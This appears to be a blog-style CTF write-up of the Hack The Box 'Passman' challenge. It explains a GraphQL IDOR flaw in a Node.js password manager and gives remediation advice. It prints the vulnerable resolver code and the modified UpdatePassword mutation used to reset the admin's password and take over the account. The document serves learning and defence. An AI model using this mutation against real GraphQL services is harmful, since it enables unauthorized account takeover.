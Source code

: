 +++
date = '2025-08-12T17:29:11Z'
draft = false
title = 'HTB Passman'
+++

<!---
[ctf](/tags#ctf) [htb-passman](/tags#htb-passman) [hackthebox](/tags#hackthebox) [graphql](/tags#graphql) [idor](/tags#idor) [burp](/tags#burp) [inql](/tags#inql) [javascript](/tags#javascript)
--->

Passman is an easy-rated HackTheBox machine featuring a Node.js password manager vulnerable to IDOR via GraphQL mutations. This writeup demonstrates how I exploited an authorization flaw to change admin passwords and retrieve the flag.

## Box Info

| Name | [Passman](https://app.hackthebox.com/machines/Passman) |
|------|--------------------------------------------------------|
| OS | Linux |
| Difficulty | <span class="diff-Easy">Easy</span> |
| Creator | [xclow3n](https://app.hackthebox.com/users/172213) |
| Release Date | 27 Oct 2022 |

---

## Reconnaissance

### Application Overview
The web application presents a password manager interface:
- Login/Registration system
    <p style="display: flex; gap: 16px;">
        <img src="img/1.png">
        <img src="img/2.png">
    </p>
- Dashboard to store credentials
    <p style="text-align: center"><img src="img/3.png"></p>
- GraphQL API endpoint at `/graphql`
    <p><img src="img/4.png"></p>

### Source Code Analysis
Reviewing the provided source code revealed critical insights:
-  **Admin Privileges** 
    <p><img src="img/7.png"></p>
- **Initial User Setup**
    <p><img src="img/9.png"></p>

## Vulnerability Disclosure

### GraphQL Enumeration & Flawed Authorization
After detecting the use of graphql in the application I used **Burp Suite's InQL extension** and discovered a critical GraphQL mutation:

<p style="text-align: center"><img src="img/6.png"></p>

I noticed this `UpdatePassword` mutation here, then I checked the source code for the same and identified that there lies a flaw, and it can be use to exploit the idor vuln.

<p style="text-align: center"><img src="img/8.png"></p>

``` javascript
resolve: async (root, args, request) => {
    return new Promise((resolve, reject) => {
        if (!request.user) return reject(new GraphQLError('Authentication required!'));

        db.updatePassword(args.username, args.password) // No ownership check
}
```

## Exploitation

### Attack Workflow

I've captured the mutation request for storing passwords and modified it as per the `UpdatePassword` mutation

- Intercepted `AddPhrase` mutation request:
    ``` graphql
    {
        "query":
            "mutation($recType: String!, $recAddr: String!, $recUser: String!, $recPass: String!, $recNote: String!) { AddPhrase(recType: $recType, recAddr: $recAddr, recUser: $recUser, recPass: $recPass, recNote: $recNote) { message } }",
        "variables":
            {"recType":"Web","recAddr":"asdf","recUser":"adf",S"recPass":"adsf","recNote":"adsf"}
    }
    ```
    <p style="text-align: center"><img src="img/10.png"></p>
- Modified for `UpdatePassword`:
    ``` graphql
    {
        "query":
            "mutation($username: String!, $password: String!) { UpdatePassword(username: $username, password: $password) { message } }",
        "variables":
            {"username":"admin","password":"admin"}
    }
    ```
    <p style="text-align: center"><img src="img/11.png"></p>

- Then changed the password of the user admin (identified from the source code)
    <p style="text-align: center"><img src="img/12.png"></p>

- And successfully logged in as a root user and retrieved flag from admin dashboard (the stored password in the dashboard is the flag)
    <p style="text-align: center"><img src="img/13.png"></p>
    
## Remediation

- **Implement Proper Authorization:**
    ``` javascript
    if (currentUser !== targetUser && !currentUser.isAdmin) {
        throw new Error('Unauthorized');
    }
    ```
- **GraphQL Security Best Practices:**
    - Use schema directives for role-based access
    - Implement query whitelisting
    - Add rate limiting on sensitive operations

## Key Takeaways

- **GraphQL introspection** can reveal critical attack surfaces  
- **Always validate ownership** in mutation resolvers  
- **Source code review** often reveals logical flaws missed in black-box testing  
- **Burp Suite's InQL** is invaluable for GraphQL API testing   

## /exit
Exploit complete. Session terminated. *mic drop* 🚩 
